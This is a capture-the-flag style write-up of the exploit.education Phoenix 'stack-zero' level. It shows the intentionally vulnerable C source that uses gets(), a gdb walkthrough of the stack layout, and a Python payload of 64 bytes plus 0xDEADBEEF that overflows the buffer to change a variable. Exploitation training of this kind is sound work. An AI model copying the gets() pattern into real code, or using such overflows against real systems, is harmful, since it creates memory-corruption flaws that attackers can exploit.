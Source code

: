 ## Stack Zero
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source Code
```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
> For those unfamiliar with the `volatile` keyword, it tells the compiler not to run optimizations on the integer `changeme`.
## Challenge
The aim is to change the contents of the changeme variable.

## Solution
### Dry Run
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
vi11ain
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```
As in the source-code,
1. Print banner with `puts()`
2. Receive user input to `locals.buffer` using `gets()`
3. Check `locals.changeme` and print output using `puts()` accordingly

### The Plan
Using `gets()` for user input is a dangerous practice,
> Never use gets().
> Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.
> -gets(3), man

We can leverage it for a buffer overflow, running over, and changing, the value of `locals.changeme`.

### Debugging
This level is very straight forward and does not require debugging, but we'll use `gdb` just to make sure we understand what happens.
```console
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-zero
```

I like to start by listing functions and putting a breakpoint in `main()`.
```console
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400408  _init
0x0000000000400430  gets@plt
0x0000000000400440  puts@plt
0x0000000000400450  exit@plt
0x0000000000400460  __libc_start_main@plt
0x0000000000400470  _start
0x0000000000400486  _start_c
0x00000000004004b0  deregister_tm_clones
0x00000000004004e0  register_tm_clones
0x0000000000400520  __do_global_dtors_aux
0x00000000004005b0  frame_dummy
0x00000000004005dd  main
0x0000000000400630  __do_global_ctors_aux
0x0000000000400672  _fini
(gdb) b main
Breakpoint 1 at 0x4005e1
```

Now we can run the executable.

![](/images/stack-0/0.png)
Notice we approach the first call to `puts()`.

Add a breakpoint to after the call and continue until it.
```console
(gdb) b *main+25
Breakpoint 6 at 0x4005f6
```

![](/images/stack-0/1.png)
1. `0` is written to the `dword` (4 bytes) pointed by `[rbp-0x10]`, on the stack, this is `locals.changeme`
2. The address of `[rbp-0x50]`, `locals.buffer`, is moved to the register `rdi` (by convention in x64, this register acts as the first integer/pointer parameter to a function)
3. `gets(locals.buffer)` is called
5. And finally, we can see the check for `[rbp-0x10]`, `locals.changeme != 0`.

Use `GEF`'s `hexdump` to see the value of our variables in the stack.

![](/images/stack-0/2.png)

### Breaking it

So if we write more than 64 bytes (the size of `locals.buffer`) we will overwrite `locals.changeme` with a value of our choice.

We are not going to type 64 bytes by ourselves, this is what we have computers for,
```console
user@phoenix-amd64:~$ python3 -c "with open('exploit', 'wb') as f: f.write(b'a'*64 + b'\xDE\xAD\xBE\xEF')"
user@phoenix-amd64:~$ hexdump -C exploit
00000000  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000040  de ad be ef                                       |....|
00000044
```
This input will write 64 `a` chars to fill `locals.buffer`, and a special `dword` - `0xDEADBEEF` to `locals.changeme`.

Re-run the program, this time with our payload redirected to it's `stdin`.
But before we do so, clear the breakpoints and set a new one to after `gets(locals.buffer)`.
```console
(gdb) d breakpoints
(gdb) b *main+44
Breakpoint 7 at 0x400609
(gdb) run < /home/user/exploit
```

Now `hexdump` once again just to check our input worked as expected.

![](/images/stack-0/3.png)

Continue (`c`) to let the program resume execution.
```console
(gdb) c
Continuing.
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 930) exited normally]
```

🥳
